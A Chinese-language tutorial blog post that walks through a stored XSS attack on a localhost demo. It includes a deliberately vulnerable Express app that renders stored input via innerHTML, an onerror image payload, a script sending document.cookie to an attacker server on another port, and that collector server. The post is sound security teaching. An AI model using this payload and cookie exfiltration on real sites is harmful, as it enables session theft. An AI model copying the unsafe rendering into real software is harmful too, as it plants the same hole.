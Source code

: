 ```yaml
---
tags: ['网络安全', '面试问题 - 网络']
date: 10.24.2019
image: /images/xss-beat-intro.png
description: 带你完整地演示一遍存储型 XSS 攻击
---
```


# XSS 攻击 - 存储型

> Posted: 10.24.2019

<Tag />

## 存储型 XSS 的特点

存储型 XSS，也叫持久型 XSS。

主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。）。

然后在下次请求页面的时候就不用带上XSS代码了

最典型的就是留言板XSS：

1. 用户提交了一条包含XSS代码的留言到数据库
2. 当目标用户查询留言时，那些留言的内容会从服务器解析之后加载出来
3. 浏览器发现有XSS代码，就当做正常的HTML和JS解析执行
4. XSS攻击就发生了

![xss-stored](/images/xss-stored.png)

和反射型 XSS 攻击不同的是，<span v-red>**存储型 XSS 直接攻击了具有漏洞的网站本身！**</span>

因为它在数据库里注入了恶意的内容！（当然，最后付出代价的还是用户自己）

## 代码模拟

### 被攻击的服务器

首先我们起一个普通的 node 服务器，作为被攻击的网站服务器。

这个服务器很简单，就是注册用户，然后将用户的邮箱存储到数据库里。

当然，我们这里就不搞真的数据库了，就用内存暂时代替一下。

<span v-line>别问为什么不用 localStorage，localStorage 是 H5 的特性，服务器没有。</span>

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const path = require('path');

const app = express();

// 直接用内存当数据库了
const db = [];

app.use(bodyParser.urlencoded({ extended: true, limit: "50mb" }));
app.use(bodyParser.json({ extended: true, limit: "50mb" }));

app.use(express.static("./xss-stored.html"));
app.use(express.static("./xss-stored-result.html"));

app.get("/index", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored.html'));
});

app.get("/result", (req, res) => {
  res.sendFile(path.join(__dirname, './xss-stored-result.html'));
});

app.get("/users", (req, res) => {
  res.status(200).json(db);
});

app.post("/register", (req, res) => {
  const { username, email } = req.body;
  db.push({ username, email });
  res.status(200).end('success!');
});

app.listen(8081, () => console.log("SB server running on port 8081"));
```

### 被攻击的客户端

前端就是用来展示搜索的结果

注册页面：

```html
<body>
  <div class="container">
    <form id="myform">
      用户名： <input type="text" placeholder="username..." id="username" /><br />
      邮箱： <input type="text" placeholder="email..." id="email" /><br /><br />
      <button class="submit-btn">注册</button>
    </form>
  </div>
  <script>
    // 绑定表单的提交
    document.querySelector(".submit-btn").addEventListener('click', (e) => {
      e.preventDefault();
      var username = document.querySelector('#username').value;
      var email = document.querySelector('#email').value;
      var data = { username, email };

      var xhr = new XMLHttpRequest();
      xhr.open('post', '/register', true);
      xhr.setRequestHeader('Content-Type', 'application/json');
      xhr.send(JSON.stringify(data));

      xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
          window.location.href = '/result';
        }
      }
    });
  </script>
</body>
```

注册成功后跳转到结果页面：

```html
<body>
  <div class="result"></div>
  <script>
    // 原生 AJAX 方法
    var xhr = new XMLHttpRequest();
    xhr.open('get', `http://localhost:8081/users`, true);
    xhr.send();
    xhr.onreadystatechange = function () {
      if (xhr.readyState === 4 && xhr.status === 200) {
        var users = JSON.parse(xhr.responseText);
        users.forEach(user => {
          var div = document.createElement('div');
          var text = '用户名：' + user.username + '，邮箱：' + user.email;
          div.innerHTML = text;
          document.querySelector('.result').appendChild(div);
        });
      }
    }
  </script>
</body>
```

最终实现的效果是这样的：

![xss-stored-pro](/images/xss-store-pro.gif)

### 攻击者寻找目标

攻击者这个时候会注册 `<img src=null onerror="alert('sb')" />` 这个字符串

能够帮助攻击者定位的，就是在结果页面，攻击代码被执行。

![xss stored attack](/images/xss-stored-attack.gif)

这个时候，攻击已经开始了，攻击者可以进行一些大胆的想法了。

### 开始攻击

和反射型 XSS 不一样，存储型 XSS 不需要发送任何邮件。

只要用户进入到 `localhost:8081/result` 这个页面，就会被攻击。

### 攻击者的攻击脚本

和反射型 XSS 一样，一般来说，就是获取 cookie 并且发送到后台。

但其实能做的事情多了。这里就不一一列举了。

```javascript
// 原生 AJAX 方法
var xhr = new XMLHttpRequest();
xhr.open('get', `http://localhost:8082/attack?q=${document.cookie}`, true);
xhr.send();
xhr.onreadystatechange = function () {
  if (xhr.readyState === 4 && xhr.status === 200) {
    /**
     * 傻逼才会在这里显示攻击成功
     * 我这仅仅出于说明的目的
     */
    console.log('攻击成功！');
  }
}
```

### 攻击者的服务器

然后我们起一个攻击者的服务器，用来处理用户发送的数据。

攻击者的服务器很简单，就是接收请求，然后读取 query string 里面的 cookie 信息。

```javascript
const express = require("express");
const path = require('path');
const app = express();

app.use(express.static("./attack.js"));

app.get("/danger", (req, res) => {
  res.sendFile(path.join(__dirname, './attack.js'));
});

app.get("/attack", (req, res) => {
  // 从 query string 上拿到被攻击者的 cookie
  const { q } = req.query;
  console.log(q);
  res.status(204).end();
});

app.listen(8082, () => console.log("Attacker running on port 8082"));
```

### 结果

当用户进入 result 页面时，我们成功地获取到了他的 cookie

![xss-stored-attack-result](/images/xss-stored-attack-result.png)

## 参考资料

[前端安全之XSS攻击](https://www.cnblogs.com/unclekeith/p/7750681.html)

[What is Cross Site Scripting (XSS) ?](https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/)

<Chirpy />
